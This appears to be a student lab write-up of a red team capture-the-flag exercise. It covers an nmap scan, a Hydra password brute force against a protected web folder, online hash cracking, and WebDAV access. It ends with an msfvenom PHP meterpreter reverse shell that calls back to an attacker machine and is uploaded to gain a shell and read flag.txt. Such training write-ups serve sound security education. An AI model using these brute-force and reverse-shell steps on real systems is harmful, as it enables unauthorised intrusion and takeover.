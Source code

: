 ﻿## Red Team 

### Step 1: Discovering the IP address of the linux server.

In order to find the ip address of the machine, we will need to use a network mapping tool called Nmap to scan the network. 

- Open the terminal and run: nmap 192.168.1.0/24 (We used this ip cidr range bcause our attack machine belongs to this subnetwork.)

![alt text](https://github.com/jsanchez-cyberpro/Blue-vs-Red/blob/main/Red%20Team/Images/1_nmap.jpg)

From the Nmap scan we can see that port 80 is open. Next we opened a web browser and typed the IP address of the machine into the address bar.

- Open web browser and navigate to 192.168.1.105 and press enter. 
![alt text](https://github.com/jsanchez-cyberpro/Blue-vs-Red/blob/main/Red%20Team/Images/2_web_discovery.jpg)



### Step 2: Locating the hidden directory on the server.

- Navigating through different directories, i saw a recurring message:

![alt text](https://github.com/jsanchez-cyberpro/Blue-vs-Red/blob/main/Red%20Team/recurring%20message.JPG)

- Upon such discovery I navigated to the directory by typing: 192.168.1.105/company_folders/secret_folder

- The directory requested authentication in order to access it. Reading the authentication method, it says "For ashton's eyes only"

![alt text](https://github.com/jsanchez-cyberpro/Blue-vs-Red/blob/main/Red%20Team/ashton_eyes_only.jpg)


### Step 3: Brute force the password for the hidden directory.

Because the folder is password protected, we need to either guess the password or brute force into the directory. In this case, it would be much more efficient
to use a brute force attack, specifically Hydra. 

- Using Ashton's name, run the Hydra attack against the directory: 

   - type: hydra -l ashton -P /usr/share/wordlists/rockyou.txt -s 80 -f -vV 192.168.1.105 http-get /company_folders/secret_folder

![alt text](https://github.com/jsanchez-cyberpro/Blue-vs-Red/blob/main/Red%20Team/hydra_sytanx.jpg)

- The brute force attack may take some time. Once it finished, the username is ashton and the password is leopoldo.

![alt text](https://github.com/jsanchez-cyberpro/Blue-vs-Red/blob/main/Red%20Team/password_discovery.jpg)

- Went back to the web browser and used the credentiial to log in. We open the file connecting_to_webdav file.  

![alt text](https://github.com/jsanchez-cyberpro/Blue-vs-Red/blob/main/Red%20Team/7_inside_secret_directory.jpg)

- Located inside of the WebDAV file are instructions on how to connect to the WebDAV directory, as well the user's username and hashed password.

![alt text](https://github.com/jsanchez-cyberpro/Blue-vs-Red/blob/main/Red%20Team/8a_webdav_hash.jpg)


### Step 4: Connect to the server via Webdav 

There are several ways to break the password hash. But in this intanse we avoided waiting for john to crack the password hash, we used https://crackstation.net
paste the password hash and filled out the CAPTCHA; and clicked Crack Hashes. 

![alt text](https://github.com/jsanchez-cyberpro/Blue-vs-Red/blob/main/Red%20Team/9_password_hash_cracking.jpg)

- The password is revealed as: linux4u

### Step 5: Connecting to the server via WebDAV.

- We gained important information to make the WebDAV connection on our local attack machine. We used that information by:
	
	- We opened the file system shortcut from the desktop.
	
	- Clicked on Browse Network.

	- In the URL bar, typed: dav://192.168.1.105/webdav, and entered the credentials to log in.

![alt text](https://github.com/jsanchez-cyberpro/Blue-vs-Red/blob/main/Red%20Team/10_connect_to_webdav.jpg)


### Step 6: Creating and Uploading a PHP reverse shell payload.

- To set up the reverse shell, run:
	- msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.1.90 lport=4444 >> shell.php

![alt text](https://github.com/jsanchez-cyberpro/Blue-vs-Red/blob/main/Red%20Team/11_msfvenom.jpg)

- The series of command above does the following :

	- msfconsole to launch msfconsole.

	- use exploit/multi/handler
	
	- set payload php/meterpreter/reverse_tcp

	- show options and point out they need to set the LHOST

	- set LHOST 192.168.1.90(Attacker Machine)

	- exploit  

![alt text](https://github.com/jsanchez-cyberpro/Blue-vs-Red/blob/main/Red%20Team/12_listener.jpg)

- Place the reverse shell onto the webDAV directory

![alt text](https://github.com/jsanchez-cyberpro/Blue-vs-Red/blob/main/Red%20Team/13_implanting_the_reverse.jpg)

- We logged back in, visited the webdav folder by navigating to 192.168.1.105/webdav. Used the credentials obtained before, user:ryan pass:linux4u

![alt text](https://github.com/jsanchez-cyberpro/Blue-vs-Red/blob/main/Red%20Team/14_webdav_%20access_laststeps.png)

- I visited where i uploaded the reverse shell and clicked it to activate it. (If it seems like tge browser is hanging or loading, that means it has worked.)

![alt text](https://github.com/jsanchez-cyberpro/Blue-vs-Red/blob/main/Red%20Team/15_activiating_the_shell.jpg)


### Step 7: Find and capture the flag. 

- on the listener, we are going to search for the file flag.txt located in the root directory. To do such i did the following:

	- Dropped a bash shell with the command: shell

	- Changed directory to the / directory: cd /

	- Searched the system for any files containing the phrase "flag" : find . -iname flag.txt

- Printed the file once i located it by: cat flag.txt

![alt text](https://github.com/jsanchez-cyberpro/Blue-vs-Red/blob/main/Red%20Team/16_view_files.jpg)

![alt text](https://github.com/jsanchez-cyberpro/Blue-vs-Red/blob/main/Red%20Team/check_point.jpg)


